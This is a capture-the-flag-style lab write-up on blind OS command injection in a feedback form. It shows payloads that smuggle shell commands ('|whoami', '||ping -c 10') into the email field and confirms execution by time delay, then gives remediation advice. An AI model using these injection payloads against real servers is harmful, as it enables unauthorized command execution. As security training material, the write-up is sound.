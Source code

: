 ## 🧪 Lab: Blind OS Command Injection with Time Delays  
**Level**: Apprentice  
**Date**: June 18, 2025  
**Goal**: Exploit a blind OS command injection vulnerability by using time delays to confirm successful command execution.

---

### 🧰 Tools  
- Burp Suite (Repeater / Interceptor)  
- Timing-based payloads (`ping`, `sleep`)

---

### 🧭 Steps

1. Intercept the feedback form request:
POST /feedback/submit

Example fields:
name=John
email=john@example.com
message=Hello!


2. Send the request to Repeater.

3. Attempt basic command injection (no output expected):

```
email=test@test.com|whoami
```

❌ No visible output → Possible blind injection.

4. Attempt time-based payload to detect blind injection:

```
email=aaa@test.com||ping+-c+10+127.0.0.1
```

✅ Server delays for ~10 seconds → Successful time-based confirmation.

---

### 💣 Payload

```
email=aaa@test.com||ping+-c+10+127.0.0.1
```

---

### 💡 Observations

- No command output = blind vulnerability.
- `||` ensures the injected command runs even if previous fails.
- Delay confirms command execution.
- Email field passed to backend shell → high-risk injection point.

---

### 🔒 Remediation

- Never pass unsanitized input to system shell.
- Use language-native mailing functions instead of shell commands.
- Apply strict input validation and allow-lists.
- Sanitize every field, even those assumed "safe" (like `email`).
- Monitor backend performance for unusual latency patterns.